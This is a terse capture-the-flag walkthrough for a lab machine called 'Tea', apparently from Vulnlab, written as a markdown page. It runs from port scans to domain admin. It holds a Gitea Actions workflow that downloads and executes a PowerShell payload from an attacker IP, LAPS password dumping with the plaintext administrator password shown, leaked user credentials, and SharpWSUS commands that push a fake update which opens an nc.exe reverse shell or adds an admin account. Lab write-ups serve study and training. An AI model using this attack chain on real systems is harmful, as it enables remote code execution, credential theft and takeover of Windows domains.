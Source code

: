 ```yaml
---
title: "Tea"
description: ""
summary: ""
date: 2023-09-07T16:06:50+02:00
lastmod: 2023-09-07T16:06:50+02:00
draft: false
weight: 800
toc: true
sidebar:
  collapsed: true
seo:
  title: "" # custom title (optional)
  description: "" # custom description (recommended)
  canonical: "" # custom canonical URL (optional)
  robots: "" # custom robot tags (optional)
  noindex: false # false (default) or true
---
```



Scan 1 :
```sh
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-09-12 13:16:35Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: tea.vl0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: tea.vl0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal Services

```
Scan 2 : 
```sh
80/tcp   open  http          Microsoft IIS httpd 10.0
135/tcp  open  msrpc         Microsoft Windows RPC
445/tcp  open  microsoft-ds?
3000/tcp open  ppp?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
```

-  First foothold : 
```
- Create an account 
- Create a folder and enable action in the repo settings
```

- Upload the folder : `.gitea/workflows/demo.yaml`
```yaml
name: Execute wget (or curl) on commit or push
on: [push]

jobs:
  Execute-Wget:
    runs-on: windows-latest
    steps:
      - name: Execute curl command
        run: |
          powershell IEX (New-Object Net.WebClient).DownloadString('http://10.8.3.12:8080/shell.ps1')
        shell: cmd
```

- Push random item to get a shell 

- First user :
```sh
thomas.wallace
jiri.formacek
```

Flag :  VL{4e1989d1fe9a7cfc26c56efd7e7df933}

- Laps v2 : 
```powershell
Get-LAPSADPassword  -Identity srv
Get-LapsADPassword -Identity srv -DomainController dc -AsPlainText
```

```sh
ComputerName        : SRV
DistinguishedName   : CN=SRV,OU=Servers,DC=tea,DC=vl
Account             : Administrator
Password            : NC4X9563Yl+;$M
PasswordUpdateTime  : 9/18/2024 12:25:00 AM
ExpirationTimestamp : 10/18/2024 12:25:00 AM
Source              : EncryptedPassword
DecryptionStatus    : Success
AuthorizedDecryptor : TEA\Server Administration
```

Flag  VL{0625916903cc1c866ad33c963a400a61}

- Creds :
```sh
thomas.wallace:6e-34tD8B2QJ
```

- WSUS Update : 
https://github.com/techspence/SharpWSUS
```sh
SharpWSUS.exe locate
SharpWSUS.exe inspect 
SharpWSUS.exe create /payload:"C:\tools\PsExec64.exe" /args:" -accepteula -s -d C:\_install\nc.exe -e cmd.exe 10.8.3.12 4242" /title:"CVE-2022-30190"
SharpWSUS.exe approve /updateid:7d18aee2-2c8e-4857-b61e-1408a653dcbe /computername:dc.tea.vl /groupname:"Group Name"
#or 
SharpWSUS.exe create /payload:"C:\_install\PsExec64.exe" /args:"-accepteula -s -d cmd.exe  /c \" net user pavic Password_123 /add \""

SharpWSUS.exe create /payload:"C:\_install\PsExec64.exe" /args:"-accepteula -s -d cmd.exe  /c \"net localgroup administrators pavic /add \""

```
https://0xdf.gitlab.io/2022/12/10/htb-outdated.html

Root : VL{9bb75d5911b1a1f9bfe115facf5a6039}